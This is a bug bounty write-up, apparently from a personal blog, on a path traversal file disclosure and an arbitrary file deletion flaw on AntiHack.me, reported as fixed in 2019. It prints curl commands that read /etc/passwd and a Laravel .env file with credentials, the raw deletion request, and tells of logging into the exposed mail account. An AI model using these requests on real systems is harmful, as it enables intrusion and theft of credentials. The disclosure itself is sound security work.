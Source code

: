 ```yaml
---
layout: post
title: How I Found Multiple Vulnerabilities on AntiHack.Me
excerpt: "AntiHack.me is a Singaporean Bug Bounty Platform site. After seeing this platform well known, I decided to create an account there. After successfully creating an account, the user will be provided with information regarding the Bug Bounty Program found at AntiHack, and the AntiHack site itself is included in the program."
tags: [bug hunting, hacking, lfi, lfd]
categories: [bug hunting]
comments: true
image:
  feature: c943919f00e9a4a7cd67a30b257c3ea1-f.png
---
```


AntiHack.me is a Singaporean Bug Bounty Platform site. After seeing this platform well known, I decided to create an account there. After successfully creating an account, the user will be provided with information regarding the Bug Bounty Program found at AntiHack, and the AntiHack site itself is included in the program.

#### VULNERABILITY I (Local File Disclosure)

When accessing the https://www.antihack.me/blog page, the website will display Popup Modal, which contains an invitation to subscribe to AntiHack Magazine, which is an E-Zine made by them. The process is by entering some information in the field provided, then pressing the Submit button. After the Submit button is pressed, the user will be directed to the link to download the E-Zine. Following is the form of the link:

```
https://www.antihack.me/filedownload.php?file=AntiHACKJan19Issue.pdf
```

From this structure, it can be seen that the file `filedownload.php` may have a Local File Disclosure vulnerability, whereby using this file, we can download sensitive files that are on the server. I tried using curl like this:

```
[root@noobe.io ~]# curl https://www.antihack.me/filedownload.php?file=../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
```

It can be seen that the file `filedownload.php` really has a vulnerability so we can download files on the server. Because of the AntiHack.me website uses Laravel, and then I try to get the config file, which is in the `.env` file.

```
[root@noobe.io ~]# curl https://www.antihack.me/filedownload.php?file=../../../../var/www/html/.env

DB_CONNECTION=mysql
DB_HOST=localhost
DB_PORT=3306
DB_DATABASE=antihack
DB_USERNAME=antihack
DB_PASSWORD=

MAIL_DRIVER=smtp
MAIL_HOST=smtp.zoho.com
MAIL_PORT=465
MAIL_USERNAME=admin@antihack.me
MAIL_PASSWORD=[ redacted ]
```

From this information, I obtain sensitive information such as user and database passwords. There is even an SMTP user and password used. I tried logging in using the SMTP user and password obtained, and it's worked XD.

![AntiHack.Me Zoho Account](/assets/c943919f00e9a4a7cd67a30b257c3ea1-1.png)


#### VULNERABILITY II (IDOR Delete Any File on AntiHack.me Server)

As on other Bug Bounty websites, there is a feature for reporting vulnerability found. There is also an attached file feature to add images or video files to complete the report that we send. After finishing uploading the file on the report form, an X button appears, which serves to delete the file that was just uploaded. Of course, the function is to delete the file if we incorrectly upload the report file.

![AntiHack.Me Delete File Button](/assets/c943919f00e9a4a7cd67a30b257c3ea1-2.png)

When the button is clicked, the process runs like this:

```
POST /php/ajax_remove_file.php HTTP/1.1
Host: www.antihack.me
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.antihack.me/hacker_inbox
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 21
Cookie: [ redacted ]
Connection: close

file=35C2XxQY_400x400.png
```

Unfortunately, there is no validation of any files that may be deleted. By manipulating the values of the `file` parameters, we can delete any files contained on the AntiHack.me server.

For more details, please see the following GIF:

![AntiHack.Me Delete File GIF](/assets/c943919f00e9a4a7cd67a30b257c3ea1-3.gif)

In my trial, I tried to delete files with several different extensions, but I did not try to delete files outside the website folder because I was worried that they might interfere and even damage the website.

Those are some of the vulnerabilities that were found on the Anti Hack.me website. Currently, all of these vulnerabilities have been fixed by AntiHack.me.

#### Timeline

```
2019-01-03: Bug reported
2019-01-04: Triaged
2019-01-06: Bug Fixed
2019-01-09: Report Resolved
2019-01-09: Swag Rewarded
```

**References:**

- CWE-200 : Information Exposure
- CWE-284: Improper Access Control
